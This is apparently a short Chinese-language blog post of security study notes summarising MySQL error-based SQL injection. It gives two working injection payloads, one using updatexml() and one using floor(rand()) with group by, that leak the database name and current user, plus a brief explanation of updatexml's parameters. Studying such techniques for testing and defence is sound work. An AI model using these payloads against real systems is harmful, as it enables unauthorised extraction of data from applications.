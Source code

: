 ```yaml
---
layout: post
title: "5.MySQL报错注入小结"
subtitle: "5.MySQL报错注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**updatexml 报错注入**

```mysql
select * from users where id=1 and (updatexml(1,concat(0x3a,(select database())),1));
```



**解释：**

语法：UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串)

第三个参数：new_value，String格式，替换查找到的符合条件的数据

**作用：改变文档中符合条件的节点的值。**





**floor 报错注入**

```mysql
select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```





[其他参考](http://www.mamicode.com/info-detail-2366760.html)